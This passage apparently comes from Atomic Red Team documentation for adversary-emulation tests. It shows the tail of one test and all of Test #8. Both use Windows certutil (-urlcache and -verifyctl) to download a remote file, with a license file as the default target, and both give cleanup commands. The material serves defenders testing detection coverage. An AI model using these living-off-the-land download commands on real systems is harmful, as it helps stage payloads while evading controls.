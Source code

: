 
#### Attack Commands: Run with `command_prompt`! 


```cmd
cmd /c certutil -urlcache -split -f #{remote_file} #{local_path}
```

#### Cleanup Commands:
```cmd
del #{local_path} >nul 2>&1
```





<br/>
<br/>

## Atomic Test #8 - certutil download (verifyctl)
Use certutil -verifyctl argument to download a file from the web. Note - /verifyctl also works!

**Supported Platforms:** Windows


**auto_generated_guid:** ffd492e3-0455-4518-9fb1-46527c9f241b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_file | URL of file to copy | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt|
| local_path | Local path to place file | path | Atomic-license.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
$datePath = "certutil-$(Get-Date -format yyyy_MM_dd)"
New-Item -Path $datePath -ItemType Directory
Set-Location $datePath
certutil -verifyctl -split -f #{remote_file}
Get-ChildItem | Where-Object {$_.Name -notlike "*.txt"} | Foreach-Object { Move-Item $_.Name -Destination #{local_path} }
```

#### Cleanup Commands:
```powershell
Remove-Item "certutil-$(Get-Date -format yyyy_MM_dd)" -Force -Recurse -ErrorAction Ignore
```





<br/>
<br/>
